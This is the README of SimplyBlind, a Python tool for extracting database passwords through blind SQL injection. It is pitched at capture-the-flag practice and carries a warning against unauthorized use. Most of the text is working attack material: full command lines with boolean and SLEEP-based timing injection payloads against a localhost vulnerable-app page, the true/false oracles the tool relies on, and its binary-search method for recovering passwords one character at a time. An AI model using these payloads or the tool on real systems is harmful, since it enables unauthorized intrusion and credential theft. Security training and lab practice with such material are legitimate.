 # SimplyBlind  
A script to extracted characters by exploiting blind SQL injection.

Designed for Capture The Flags (CTF) as I felt it was too troublesome to manual extract each character. This is not meant for illegal use. Please do not run this script on sites you do not have permissions on.

# Quick Start Guide:    
There are 2 "attack" modes:
- [Brute](#brute-attack-mode): Brute force every character in the table
- [Quick](#quick-attack-mode): Quick attack narrows down possible CHAR before checking it. Making it faster than brute

Use help flag for more information:
`-h`   For help menu

Modes flag are set with `-m <mode>`:  
- sc   Status Code 
- reg   regex  
- redir   redirect    
- to | nto  timeout | not_timeout  
The mode flag defines what triggers a true statement. True statement is used to see if the inferred character matches the one in database. if yes, that character is part of the password 

## Examples:
### Response Status code
``` shell
python simplyBlind.py quick -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200](img/200.gif)
``` shell
python simplyBlind.py quick -m sc -s 200 -p "1' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![200_2](img/200_2.gif)  

### Regex:
``` shell
python simplyBlind.py quick -m reg --regex "User ID exists in the database" -p "2' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![regex](img/regex.gif)  

### Timeout:
```shell
python simplyBlind.py quick -m to --timeout 0.5 -p "10' AND IF(BINARY SUBSTR(password, \!I, 1) \!S '\!C', SLEEP(0.7), FALSE) #" -c '{"PHPSESSID":"etc7stehjcs7c4kqaa6p6kit03", "security":"low"}' --get http://localhost/vulnerabilities/sqli_blind/
```
![timeout](img/time.gif)

# Quick Explanations:
## Blind SQL
### When to use:
Blind SQL is used when a website is vulnerable to SQL injection but the attacker is unable to see the returned value of the SQL quarry.   
Thus we cant just print all username and passwords.
### how it works:
As we are unable to see the output we need another way to extract information. We achieve this by executing injection that return some form of true/false indicator. This could be things like:
- How the web page response. E.g. page says "user exist"
- Being redirected
- Returning http status code
- Timeout
- Etc....

## How simply blind works?
### Brute attack mode:
Uses the [payload](#payload) to loop through every character in the [character table](#character-table) against the database to extract character by character.

### Quick attack mode:
lets say the [character table](#character-table) is as follows:

| 1 | 2 | 3 | 4 | 5 | 6 | 7 | 8 | 9 | 10 |
| :----: | :----: | :----: | :----: | :----: | :----: | :----: | :----: | :----: | :----: |

The 1st character of the password is **4**.
- The code first takes the middle (in this case the char `5`) and compares to see if 1st char of password is greater then `5`. 
	- if yes, looks at 6 and up. meaning 6 to 10. starting from 8
	- if no, looks at 4 and down. so 1 to 4. starting from 2
- Repeats until the space from the current index to the previous is less or equal to 3. when that happens it checks incrementally of each of the 3 character. 
	 when checking character `3`, 3 to 5 (the previous inferred char) is less the 3 spaces. it looks to see if 3, 4, 5 matches the 1st char of password.
	 
	 how does it know to move up or down?
	 It looks at the last quarry. 
	 - if char `3` returns `True` (meaning 1st char of password greater then `3`). it knows to look at 3, 4 and 5.
	 - if char `3` returns `False` (meaning 1st char of password less then `3`). it knows to look at 3, 2 and 1.
	
	 when it reaches 4 it will return true, thus 4 is the 1st char of the password.

## Payload
>[!Important]
>Use !S key for custom payload even in brute attack mode.  
>Escape exclamation mark for keys. E.g. `\!S` 

The payload is used to set the actual malicious injection into the [body](#body) to be sent to the server.

Default payload: `1" AND BINARY SUBSTR(password, !I, 1) !S \'!C\' #`

`-p <payload>`   Takes in a string to set custom payload. The payload takes in keys that will be replaced with the appropriate value. 
### Keys: 
#### !I = increment 
Increments will run from 1 to the end of character in the [character table](#character-table), or till it's the same value as --limit.
#### !S = symbol 
The symbol is used to narrow down and determine if the targeted character is the character we want.
#### !C = Char 
Character will be the character we are trying to match with.    

### how it works
Let say we have the websites source code. the SQL code is as follows:
``` sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```
where the users input will be set as $id.

The payload I want to use is `4' AND BINARY SUBSTR(password, 1, 1) = '0' #`

when placed in the SQL quarry will look like:
``` sql
SELECT first_name, last_name FROM users WHERE user_id = '4' AND BINARY SUBSTR(password, 1, 1) = '0' #;
```

What the payload does is it looks at the password column of the user whos ID = `4`, compares the 1st character to see if its quails to `0`. If yes, the response will be true. if no, response will be false.

To set the keys
- Replace password character index with !I
- Replace comparison with !S
- Replace compared character with !C
e.g.:
`4' AND BINARY SUBSTR(password, \!I, 1) \!S '\!C' #`
Don't forget to escape exclamation  with `\` in terminal. 

## Body
Default: `id=!P&Submit=Submit`

`-b <body>`   Takes in a string that sets the custom body. Body takes the key `!P` that will be replaced with the payload. 

## Character Table
SimplyBlind takes each character from this table and compares them to the targeted index character of the database to determine if its a match.

Default value: `` !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~``

Create custom table with `--table STRING` 
### Brute attack mode:
Order of each character does not matter.

### Quick attack mode:
Order matters as it uses comparators to determine if the character binary value is greater or lesser then the inferred character.

For MySQL 8.0, The `Unicode Character Sets` is `utf8mb4` which is a `UTF-8 encoding table`. thus the order of that character set is set as the default for this programs character table. if other encoding table is used, you can set your custom table based of the Unicode encoding table.
